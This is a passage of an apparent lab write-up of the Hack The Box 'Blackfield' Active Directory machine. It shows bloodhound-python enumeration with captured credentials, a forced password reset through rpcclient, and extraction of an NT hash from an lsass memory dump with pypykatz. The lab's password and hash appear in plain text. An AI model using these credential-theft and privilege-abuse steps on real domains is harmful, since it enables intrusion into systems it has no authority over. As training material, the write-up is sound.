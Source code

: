 With the gathered credentials, used `bloodhound-python` to get information on target domain and AD setup
```bash
bloodhound-python -u 'support' -p '#00^BlackKnight' -d BLACKFIELD.local -ns 10.10.10.192 -c all
```

Loaded .json files onto bloodhound
![[Pasted image 20241010145913.png]]
User `support` has rights to forcefully change password for user `audit2020`

Using rpcclient, changed the password of audit2020 user. [ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

```bash
rpcclient -U 'BLACKFIELD.local/support' 10.10.10.192
```
![[Pasted image 20241010150020.png]]

Now enumerated the SMB share `forensic` which the user has access to. The forensic share contains memory_analysis folder containing lsass.zip file → lsass.DMP.

Extracting information from DMP file
```bash
pypykatz lsa minidump memory_analysis/lsass.DMP
```

This contained NT hash for user `svc_backup`
`svc_backup:9658d1d1dcd9250115e2205d9f48400d`

